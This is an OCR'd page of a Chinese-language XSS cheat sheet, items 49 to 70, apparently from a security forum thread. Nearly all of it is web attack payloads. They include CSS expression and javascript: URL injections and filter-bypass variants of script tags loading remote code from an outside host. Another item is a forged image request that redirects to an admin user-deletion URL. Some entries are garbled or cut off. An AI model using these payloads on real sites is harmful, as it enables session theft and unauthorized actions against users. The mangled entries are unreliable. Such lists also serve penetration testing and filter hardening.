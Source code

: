 ```
<DIV STYLE="width: expression_r(alert('XSS'));">

(49)STYLE 属性分拆表达
<IMG STYLE="xss:expression_r(alert('XSS'))">

(50)匿名 STYLE(组成:开角号和一个字母开头)
<XSS STYLE="xss:expression_r(alert('XSS'))">

(51)STYLE background-image
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><ACLASS=XSS></A>

(52)IMG STYLE 方式
exppression(alert("XSS"))'>

(53)STYLE background
<STYLE><STYLEtype="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>

(54)BASE
<BASE HREF="javascript:alert('XSS');//">

(55)EMBED 标签,你可以嵌入 FLASH,其中包涵 XSS
<EMBED SRC="http://3w.org/XSS/xss.swf" ></EMBED>

(56)在 flash 中使用 ActionScrpt 可以混进你 XSS 的代码
a="get";b="URL(\"";c="javascript:";d="alert('XSS');\")";eval_r(a+b+c+d);

(57)XML namespace.HTC 文件必须和你的 XSS 载体在一台服务器上
<HTML xmlns:xss><?import namespace="xss"
implementation="http://3w.org/XSS/xss.htc"><xss:xss>XSS</xss:xss></HTML>

(58)如果过滤了你的 JS 你可以在图片里添加 JS 代码来利用
<SCRIPT SRC=""></SCRIPT>

(59)IMG 嵌入式命令,可执行任意命令
<IMG SRC="http://www.a.com/a.php?a=b">

(60)IMG 嵌入式命令(a.jpg 在同服务器)
Redirect 302 /a.jpg http://www.XXX.com/admin.asp&deleteuser

(61)绕符号过滤
<SCRIPT a=">" SRC="http://3w.org/xss.js"></SCRIPT>

(62)<SCRIPT =">" SRC="http://3w.org/xss.js"></SCRIPT>

(63)<SCRIPT a=">" " SRC="http://3w.org/xss.js"></SCRIPT>

(64)<SCRIPT "a='>'" SRC="http://3w.org/xss.js"></SCRIPT>

(65)<SCRIPT a=`>` SRC="http://3w.org/xss.js"></SCRIPT>

(66)12-7-1 T00LS - Powered by Discuz! Board
https://www.a.com/viewthread.php?action=printable&tid=15267 4/6<SCRIPT a=">'>"
SRC="http://3w.org/xss.js"></SCRIPT>

(67)<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://3w.org/xss.js"></SCRIPT>

(68)URL 绕行
<A HREF="http://127.0.0.1/">XSS</A>

(69)URL 编码
<A HREF="http://3w.org">XSS</A>

(70)IP 十进制
```
